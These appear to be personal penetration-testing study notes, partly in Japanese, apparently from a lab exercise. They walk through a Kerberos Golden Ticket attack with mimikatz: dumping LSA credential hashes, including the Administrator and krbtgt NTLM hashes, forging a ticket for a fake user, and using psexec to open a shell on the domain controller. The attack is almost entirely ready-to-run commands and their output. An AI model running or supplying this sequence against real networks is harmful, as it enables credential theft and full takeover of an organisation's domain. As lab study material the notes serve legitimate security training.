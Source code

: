 ```

```
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # lsadump::lsa /patch
Domain : CORP / S-1-5-21-1602875587-2787523311-2599479668 RID : 000001f4 (500)
User : Administrator
LM :
NTLM : e2b475c11da2a0748290d87aa966c327 RID : 000001f5 (501)
User : Guest
LM :
NTLM :
RID : 000001f6 (502)
User : krbtgt
LM :
NTLM : 75b60230a2394a812000dbfad8415965
```

Crafting the Golden Ticket:

```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK
mimikatz # kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587- 2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
```

Get the shell:

`misc::cmd`will open a new command prompt with elevated privileges to all machines.

```
mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 012E3A24
C:¥Users¥offsec.crop> psexec.exe ¥¥dc01 cmd.exe
PsExec v2.2 - Execute processes remotely Copyright (C) 2001-2016 Mark Russinovich Sysinternals - www.sysinternals.com C:¥Windows¥system32> 
```

この**dc01**というのは、PowerViewの`Get-NetComputer`（<- Get a list of computers in current domain ）で表示されるような、他のマシンのこと。だから他のマシンのシェルを操作できるってこと！
